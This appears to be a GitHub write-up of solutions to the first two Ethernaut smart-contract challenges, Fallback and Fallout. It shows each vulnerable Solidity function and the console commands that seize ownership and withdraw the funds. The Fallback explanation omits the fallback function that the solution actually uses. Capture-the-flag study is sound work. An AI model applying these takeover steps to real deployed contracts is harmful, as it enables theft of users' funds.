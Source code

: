 # Ethernaut Solutions

Here are my solutions for the Ethernaut challenges.

# 1. Fallback

## Vulnerability

The vulnerability is in the contribute() function:

```
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
  ```
  
 If you send more funds to the contract than the current owner, you become the new owner. And once you claim ownership of the contract, you can call the withdraw() function to take the contract's funds.
 
 ```
function withdraw() public onlyOwner {
   owner.transfer(address(this).balance);
 }
 ```
 
  ## Solution
  ```
  await contract.contribute({value: 1})
  await contract.sendTransaction({value: 1})
  await contract.withdraw()
  ```


# 2. Fallout

## Vulnerability

The vulnerability is in the constructor:

```
function Fal1out() public payable {
   owner = msg.sender;
   allocations[owner] = msg.value;
 }
 ```
 
 If you look closely, you'll see that the name of the constructor is Fal**1**out, not Fallout. This spelling mistake allows it to be called as a regular function, and based on its logic, we can claim ownership of the contract by simpling sending funds to the contract.
 
 ## Solution
 
 ```
 await contract.Fal1out({value: 1})
 await contract.collectAllocations()
 ```
